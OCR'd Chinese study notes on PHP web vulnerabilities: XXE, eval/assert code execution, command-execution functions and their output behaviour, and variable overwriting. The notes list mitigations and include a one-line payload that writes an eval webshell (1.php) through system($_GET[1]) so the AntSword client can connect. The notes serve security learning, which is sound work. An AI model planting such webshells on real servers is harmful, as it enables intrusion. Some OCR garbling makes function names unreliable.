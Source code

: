 当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。

避免xxe

  1.升级php8

  2.libxml_disabl  e_entity_loader(true)

 3.XML解析库在调用时严格禁止对外部实体的解析。

# 代码执行

Eval  assert preg_replace /e $_GET[1]($_GET[2])

eval assert区别？

  eval语言构造器绝大部分情况下可以当作一个函数来进行使用可变函数不行echo 12345;后面只需跟上php代码 assert函数后面跟上函数

# 命令执行

应用在调用这些函数执行系统命令的时候，如果讲用户的输入作为 系统命令的参数拼接到命令行中，又没有过滤用户的输入的情况下， 就会造成命令执行漏洞。

system(args) 有回显

passthru(args)(有回显)

exec(args) （回显最后一行-必须echo输出）

shell_exec(args) （无回显-必须输出）

反引号：`` 无回显

popen(handle,mode)(无回显) 

proc_open('cmd','flag','flag')（无回显）

$process = proc_open('dir',$des,$pipes);

echo stream_get_contents($pipes[1]);

如何用命令执行连接蚁剑？

  system($_GET[1]);

  1=echo ^<?php eval($_POST[2]);?^> >1.php

disable_functions中禁用。

修复：

在进入命令执行的函数或方法之前，对参数进行过滤。

参数的值尽量使用引号包裹，并在拼接前调用addslashes进行转义。

exec() 函数中数据，避免用户可控。

# 变量覆盖

extract()
